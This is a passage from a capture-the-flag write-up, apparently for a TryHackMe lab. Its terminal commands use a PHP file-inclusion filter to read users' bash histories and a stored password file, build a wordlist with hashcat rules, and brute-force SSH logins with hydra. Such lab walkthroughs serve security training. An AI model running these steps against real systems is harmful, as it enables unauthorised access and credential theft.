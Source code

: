```bash
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouter
```

Get user bash histories

```bash
┌──(bravosec㉿fsociety)-[~/thm/Red]
└─$ curl "http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.bash_history" -s | base64 -d
echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y

┌──(bravosec㉿fsociety)-[~/thm/Red]
└─$ curl "http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=/home/red/.bash_history" -s | base64 -d
```

```bash
┌──(bravosec㉿fsociety)-[~/thm/Red]
└─$ curl "http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.reminder" -s | base64 -d
sup3r_p@s$w0rd!
```

### Make a custom wordlist via hydra

Make the same wordlist as `blue` did

```bash
echo 'sup3r_p@s$w0rd!' > .reminder
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
```

```bash
┌──(bravosec㉿fsociety)-[~/thm/Red]
└─$ wc -l passlist.txt
77 passlist.txt

┌──(bravosec㉿fsociety)-[~/thm/Red]
└─$ vi users.txt
blue
red
root

┌──(bravosec㉿fsociety)-[~/thm/Red]
└─$ hydra -L users.txt -P passlist.txt -e nsr ssh://red.thm
```
